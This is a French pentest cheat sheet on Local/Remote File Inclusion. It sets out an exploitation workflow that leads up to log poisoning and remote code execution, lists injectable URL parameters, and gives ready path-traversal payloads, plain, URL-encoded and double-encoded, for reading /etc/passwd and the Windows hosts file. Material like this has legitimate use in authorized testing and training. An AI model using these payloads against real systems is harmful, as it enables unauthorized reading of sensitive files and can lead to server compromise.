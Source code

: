# Local File Inclusion (LFI) & Remote File Inclusion (RFI)

## 🗂️ Workflow d'exploitation LFI/RFI
1. Identification des paramètres d'inclusion (file=, page=, include=)
   ↓
2. Test d'inclusion de fichiers locaux (../../../etc/passwd)
   ↓
3. Bypass des protections (null bytes, encodage, wrappers)
   ↓
4. Énumération du système (logs, config, code source)
   ↓
5. Tentative RFI (inclusion de fichiers distants)
   ↓
6. Exploitation avancée (log poisoning, wrapper PHP, RCE)

## 📋 Vue d'ensemble

Les vulnérabilités LFI/RFI permettent d'inclure des fichiers locaux ou distants dans l'exécution d'une application web, souvent menant à la divulgation d'informations ou l'exécution de code.

> **💡 Explication Simple** : C'est comme demander à quelqu'un de vous lire un livre, mais au lieu de dire "lis-moi le chapitre 3", vous dites "lis-moi le fichier contenant tous les mots de passe". L'application obéit sans vérifier.

## 🔍 Détection des Vulnérabilités

### Paramètres susceptibles
```
?file=
?page=
?include=
?path=
?dir=
?document=
?folder=
?root=
?pg=
?style=
?pdf=
?template=
?php_path=
?doc=
```

### Tests de détection LFI
```bash
# Tests basiques
?file=../../../etc/passwd
?file=..\..\..\..\windows\system32\drivers\etc\hosts
?file=/etc/passwd
?file=C:\windows\system32\drivers\etc\hosts

# Avec encodage URL
?file=..%2F..%2F..%2Fetc%2Fpasswd
?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd

# Double encodage
?file=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
```
